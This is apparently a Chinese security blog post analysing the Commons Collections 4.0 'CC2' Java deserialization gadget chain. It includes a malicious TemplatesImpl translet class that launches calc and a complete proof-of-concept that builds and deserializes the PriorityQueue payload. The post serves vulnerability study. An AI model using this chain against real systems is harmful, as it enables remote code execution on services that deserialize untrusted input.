## Environment

**Pom.xml**

```
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>4.0</version>
        </dependency>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.22.0-GA</version>
        </dependency>
```

## TemplatesImpI

这个类用于加载恶意类，当声明一个实例的时候会触发**getTransletInstance**方法



查看**getTransletInstance**中**\_name**变量为空则直接返回

当**\_class**变量设置为了**null**，那么会进入**defineTransletClasses()**方法



分析**defineTransletClasses()**方法，这里有一个父类的判断



跟进查看**ABSTRACT\_TRANSLET**变量可以知道，他是一个静态常量



因此只需要构造一个恶意类然后继承他，在进行**equal**判断的时候，他的父类就是**ABSTRACT\_TRANSLET**的值，随后将**\_transletIndex**设置为0后退出

如下构造一个恶意类，需要添加一个**psvm**然后运行一下，便会在**/output**目录下得到**evil.class**，注意不能是引用**evil.java**！

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class evil  extends AbstractTranslet {
    static {
        try{
            Runtime.getRuntime().exec("calc");

        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```



由于**\_name**、**\_bytecodes**都是私有变量，只能通过反射的方式给其设置

注意**readObject**方法中的**\_tfactory**变量同样需要设置 ，否则会报出空指针异常

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.junit.Test;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class CC2TEST {
    @Test
    public void test() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Class<? extends TemplatesImpl> aClass = templates.getClass();
        Field name_field = aClass.getDeclaredField("_name");
        name_field.setAccessible(true);
        name_field.set(templates,"name"); // 设置_name变量不为空  _class无需设置，需要进入defineTransletClasses

        //下面读取恶意类的字节码
        Field bytecodes_field = aClass.getDeclaredField("_bytecodes");
        bytecodes_field.setAccessible(true);
        byte[] bytes = Files.readAllBytes(Paths.get("E:\\CC1\\test\\target\\test-classes\\evil.class"));
        byte[][] bytes1 ={bytes};  //需要将字节码转为二维数组，符合形参
        bytecodes_field.set(templates,bytes1);

    }
}
```

调试可以看到，字节码的还原让**class\[0\]**变成了**evil**类



然后跳出循环来到**getTransletInstance**方法，可以看到这里针对evil类进行了实例化，因此触发了恶意构造方法。



## TransformingComparator

这个类使用了**Serializable**接口，可以被序列化

其中一个参数是**transformer**，并且在触发**compare**方法的时候，对这个参数调用了**transform**方法

如果**transformer**的值为**InvokerTransformer**，那么他的调用方式就和**CC1**链一样



## PriorityQueue

接下来就是要触发他的**compare**方法，这个类同样继承了序列化接口

查看**heapify**方法



跟进**siftDown**方法



再跟进



在**siftDownUsingComparator**方法中看到了需要的**compare**方法



```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.junit.Test;

import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC2TEST {
    @Test
    public void test() throws Exception {

        TemplatesImpl templates = new TemplatesImpl();
        Class<? extends TemplatesImpl> aClass = templates.getClass();
        Field name_field = aClass.getDeclaredField("_name");
        name_field.setAccessible(true);
        name_field.set(templates,"name"); // 设置_name变量不为空  _class无需设置，需要进入defineTransletClasses

        //下面读取恶意类的字节码
        Field bytecodes_field = aClass.getDeclaredField("_bytecodes");
        bytecodes_field.setAccessible(true);
        byte[] bytes = Files.readAllBytes(Paths.get("E:\\CC1\\test\\target\\test-classes\\evil.class"));
        byte[][] bytes1 ={bytes};  //需要将字节码转为二维数组，符合形参
        bytecodes_field.set(templates,bytes1);

        
        
        //反射调用newTransformer
        InvokerTransformer transformer = new InvokerTransformer<>("newTransformer",new Class[]{},new Object[]{});
        TransformingComparator comparator = new TransformingComparator(transformer);

        PriorityQueue queue = new PriorityQueue(comparator);

        queue.add(templates);
        queue.add(2);
        
        serialize(queue);
        deserialize();

    }

    public static void serialize(Object o) throws Exception {
        try (ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.ser")))) {
            oos.writeObject(o);
        }
    }

    public static Object deserialize() throws Exception {
        try (ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(Paths.get("ser.ser")))) {
            return ois.readObject();
        }
    }
}
```

这里会报错说找不到这个方法



跟进**PriorityQueue.add.offer.siftUp.siftUpUsingComparator**

发现在添加队列的时候，就会触发**compare**方法，而提前传进入的**InvokerTransform**会在传入的整数上调用**newTransformer**，但是找不到，因此会被提前执行。

所以仍然需要使用反射来进行设置

## POC

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.junit.Test;

import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC2TEST {
    @Test
    public void test() throws Exception {

        TemplatesImpl templates = new TemplatesImpl();
        Class<? extends TemplatesImpl> aClass = templates.getClass();
        Field name_field = aClass.getDeclaredField("_name");
        name_field.setAccessible(true);
        name_field.set(templates,"name"); // 设置_name变量不为空  _class无需设置，需要进入defineTransletClasses

        //下面读取恶意类的字节码
        Field bytecodes_field = aClass.getDeclaredField("_bytecodes");
        bytecodes_field.setAccessible(true);
        byte[] bytes = Files.readAllBytes(Paths.get("E:\\CC1\\test\\target\\test-classes\\evil.class"));
        byte[][] bytes1 ={bytes};  //需要将字节码转为二维数组，符合形参
        bytecodes_field.set(templates,bytes1);

        //反射调用newTransformer
        InvokerTransformer invokerTransformer = new InvokerTransformer<>("newTransformer",new Class[]{},new Object[]{});

        //先将transformer赋值
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));

        PriorityQueue queue = new PriorityQueue(transformingComparator);

        //添加恶意类
        queue.add(templates);
        queue.add(1);

        //通过反射修改TransformingComparator的transformer
        Field transformer1 = transformingComparator.getClass().getDeclaredField("transformer");
        transformer1.setAccessible(true);
        transformer1.set(transformingComparator,invokerTransformer);

        serialize(queue);
        deserialize();

    }

    public static void serialize(Object o) throws Exception {
        try (ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.ser")))) {
            oos.writeObject(o);
        }
    }

    public static Object deserialize() throws Exception {
        try (ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(Paths.get("ser.ser")))) {
            return ois.readObject();
        }
    }
}
```

参考文章

- [CommonsCollections2分析-CSDN博客](https://blog.csdn.net/weixin_43818995/article/details/122184245)

- [Java--cc2链反序列化漏洞&超级清晰详细 - Erichas - 博客园](https://www.cnblogs.com/byErichas/p/15749668.html)
